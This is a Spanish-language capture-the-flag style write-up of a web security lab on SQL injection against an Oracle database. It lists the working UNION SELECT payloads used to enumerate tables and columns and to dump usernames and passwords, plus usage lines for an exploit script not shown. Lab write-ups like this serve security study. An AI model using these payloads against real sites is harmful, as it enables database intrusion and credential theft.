









# Lab: SQL injection attack, listing the database contents on Oracle

## Información dada

* Vulnerabilidad sql injection en el filtro de categoria de productos.
* Objetivo: Determinar nombre de la tabla que contiene a los usuarios para obtener los campos de usuario y contraseña
* Usuario conocido: Administrator

## Exploración

La pagina cuenta con una serie de enlaces que recargan la pagina para mostrar los productos de la categoria seleccionada. Dichos enlaces realizan una peticion al endpoint `filter` usando el parametro `category`




---


## Explotacion

La aplicación acepto la inyeccion de la forma `'--`, por lo que, se descarto que el motor de bdd usado fuera MySQL



Para determinar la cantidas de columnas tomadas en la consulta, se inyecto `'+ORDER+BY+N--` , y se incremento `N`, hasta que hubo un cambio en el comportamiento de la pagina. Se determino que fueron 2 columnas.



Al inyectar `'+UNION+SELECT+NULL,NULL--` se produjo un error, por lo que se determinó que el motor de la base de datos era Oracle.



Para la obtencion de usuario , se inyecto `'+UNION+SELECT+'USER',USER+FROM+DUAL--`


Para la obtencion de tablas correspondientes al esquema 'PETER', se inyecto `'+UNION+SELECT+'TABLA',TABLE_NAME+FROM+ALL_TABLES+WHERE+OWNER='PETER'--`


Para la obtencion de columnas de la tabla 'USERS_RAWIZM', se inyecto `'+UNION+SELECT+'Columna',COLUMN_NAME+FROM+ALL_TAB_COLUMNS+WHERE+TABLE_NAME='USERS_RAWIZM'--`


Para la obtencion de las credenciasles, se inyecto `'+UNION+SELECT+'CREDENCIALES',USERNAME_MXAYOU||':'||PASSWORD_GTDIOP+FROM+USERS_RAWIZM--`



## Scripts de explotacion

### Script python

Otorgar permisos de ejecucion:
```bash
chmod u+x script.py
```
Uso:
```bash
./script.py <url>
```

Ejemplo:

